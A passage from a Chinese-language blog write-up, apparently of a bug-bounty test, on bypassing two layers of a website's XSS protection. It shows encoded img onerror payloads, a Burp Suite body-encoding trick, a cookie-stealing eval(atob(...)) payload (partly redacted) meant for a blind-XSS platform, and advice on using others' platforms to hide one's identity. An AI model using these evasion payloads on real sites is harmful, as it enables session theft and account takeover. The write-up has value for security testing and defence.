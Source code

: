  **URL编码后的payload大致如下所示：**

 **< image/src=| onerror =
%26%23%78%36%61%26%23%78%36%31%26%23%78%37%36%26%23%78%36%31%26%23%78%37%33%26%23%78%36%33%26%23%78%37%32%26%23%78%36%39%26%23%78%37%30%26%23%78%37%34%26%23%78%33%61%26%23%78%36%31%26%23%78%36%63%26%23%78%36%35%26%23%78%37%32%26%23%78%37%34%26%23%78%32%38%26%23%78%33%31%26%23%78%33%31%26%23%78%33%31%26%23%78%32%39>**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135403.png)

  

 **  5 ** ** ** **Change Body  encoding绕过第2道防护**

提交之后，发现它有两道防护，因为到这一步没有原先的403错误提示了，直接是超时等待了一段时间，说明我们刚才的不懈努力只是绕过了第1道防护，而第2道防护没有绕过去，到这里我已经快放弃了。。。最终经过测试，
**发现使用burpsuite的“change body encoding”把POST数据包格式改一下即可绕过第2道防护** 。

![]()

  

最终将如下格式数据包编码后提交， **< image/src=| onerror =
javascript:alert(document.cookie)>**

最终本地绕过2道防护，可以弹出Cookie了（以下截图为本地虚拟机环境截图，原图敏感，就不放出来了）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135404.png)

  

 **  6 ** ** ** **XSS盲打平台**

接下来就是找XSS盲打平台了，建议大家自己从网上找一个别人搭建好的XSS盲打平台测试吧，因为自己搭建XSS平台，还得买域名、还怕泄露真实身份信息，而且网上的PHP的XSS平台代码也有不少坑，有时候wamp能搭建成功，phpstudy就搭建不成功。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135406.png)

  

最终看了一下XSS平台给出的payload语句，结合javascript为协议，组合成可真正获取Cookie的测试payload如下：

 **< image/src=| onerror =
javascript:eval(atob('cz1jxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxhbmRvbSgp'))>**

 ** **编码成 16进制格式如下：****

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135407.png)

  

上图为虚拟机测试图，到这一步呢，我才发现，原来这个src官网，防xss是这样防范的，假设官网的管理员后台地址是https://admin.xxx.src.com.cn。我本地打开这个后台地址，
**发现 这个官网后台限制了只有内网ip才能登陆！**
****到这一步，我才惊讶地发现，原来这样可以防止XSS盲打Cookie的攻击，它直接限制管理员后台的登陆，打到Cookie也没用！难道我们就没有办法了吗？经过一系列查找资料，还是有办法解决的，使用XSS隧道，或者XSS代理。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135408.png)

  

 **  7 ** ** ** **XSS 隧道代理**
